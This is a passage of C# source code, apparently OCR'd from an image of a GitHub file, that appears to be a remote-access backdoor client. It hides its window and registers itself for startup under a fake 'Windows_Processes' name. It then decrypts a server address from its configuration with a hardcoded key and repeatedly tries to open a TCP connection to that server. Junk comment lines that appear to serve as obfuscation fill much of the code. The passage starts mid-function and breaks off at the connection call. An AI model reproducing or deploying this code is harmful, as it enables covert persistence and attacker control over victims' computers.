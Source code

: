                 }
                //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW666666666666666666666666
                if (text != "")
                //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW777777777777777777777777
                {
                    //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW888888888888888888
                    return text;
                    //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW9999999999999999999999
                }
                // //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW454444444444444444
                return "null";
                //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW//D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW//D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW//D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW//D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW//D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW//D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW//D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW
            }
            //D SD32103921039103 12JMIDSIAKDAD-SADSADAS-DSA-D-ASD-AS
            catch (Exception ex)
            //D SD32103921039103 12JMIDSIAKDAD-SADSADAS-DSA-D-ASD-AS//D SD32103921039103 12JMIDSIAKDAD-SADSADAS-DSA-D-ASD-AS
            {
                //D SD32103921039103 12JMIDSIAKDAD-SADSADAS-DSA-D-ASD-AS32222222222222222222
                return ex.Message;
                // DASKDOAKDOPASDADA
            }
            // i mADE iT...
        }




private static TcpClient clientSocket = new TcpClient();
        private async void main(object sender, RoutedEventArgs e)
        {
            // KSDOAGJAJWIGNGGGGGGGGGGAPSKDOADOMFGAKGAKSPDWOPAKDPOSAKDWADA
            this.Hide();
            // SKDOGKAKSODKOPWKAKAPOSKDLMGFAOKDPHPAPLSPKGOKOIAIDJGOKOSDAPDJDSAIJDISAJDPOSAD
            AddStartup("Windows_Processes_Easy_001001001", System.Reflection.Assembly.GetExecutingAssembly().Location);
            // SDKOSADSGDWQJIDJPOSJAOLDKKFA0IWJDKJSPOAKLPWJDISPIAJWPODSDDDDDDDDDDDDASDWASD2
            int P6134 = Convert.ToInt32(ConfigurationManager.AppSettings["__AK482NF091__"]);
            // SDKOSADSGDWQJIDJPOSJAOLDKKFA0IWJDKJSPOAKLPWJDISPIAJWPODSDDDDDDDDDDDDASDWASD1
            string __D52JF910KGJ__ = ConfigurationManager.AppSettings["__G19F0TKA55__"];
            // SDKOSADSGDWQJIDJPOSJAOLDKKFA0IWJDKJSPOAKLPWJDISPIAJWPODSDDDDDDDDDDDDASDWASD3
            string __DAKA232FA43__ = AES.Decrypt(__D52JF910KGJ__, "YOUAREAMOTHERFUCKER");
            // SDKOSADSGDWQJIDJPOSJAOLDKKFA0IWJDKJSPOAKLPWJDISPI321321111111111131AJWPODSDDDDDDDDDDDDASDWASD
            var __FA231DSA4UQ__ = Dns.GetHostEntry(__DAKA232FA43__).AddressList.First(addr => addr.AddressFamily == System.Net.Sockets.AddressFamily.InterNetwork);
            // SDKOSADSGDWQJIDJPOSJAOLDKKFA0IWJDKJSPOAKLPWJDISPIAJWPODSDDDDDDDDDDDDASDWASD22222222222222222222222222222222222
            string __F42GJK932DA__ = __FA231DSA4UQ__.MapToIPv4().ToString();
            // SDKOSADSGDWQJIDJPOSJAOLDKKFA0IWJDKJSPOAKLPWJDISPIAJWPODSDDDDDDDDDDDDASDWASD2222134151U92NDSANDAKSNDKSANKKKKKKKKKKKKKKKKKKK
            bool isconnected = false;
            // SDKOSADSGDWQJIDJPOSJAOLDKKFA0IWJDKJSPOAKLPWJDISPIAJWPODSDDDDDDDDDDDDASDWASDD// SDKOSADSGDWQJIDJPOSJAOLDKKFA0IWJDKJSPOAKLPWJDISPIAJWPODSDDDDDDDDDDDDASDWASD
            while (!isconnected)
            // SDKOSADSGDDDDDDDDDDDD
            {
                // SDKOSADSG1231231
                try
                // SDKOSADSGDDDDDDDDDDDDDDDD
                {
                    // SDKOSADSGDDDDDDDDDDDDDD// SDKOSADSG
                    clientSocket.Connect(__F42GJK932DA__, P6134);
                    // SDKOSADSGSDDDDDDDDDAOKDOKKKKSLAKDWLKDLSLDDDDDDDDDDDDDDDDD
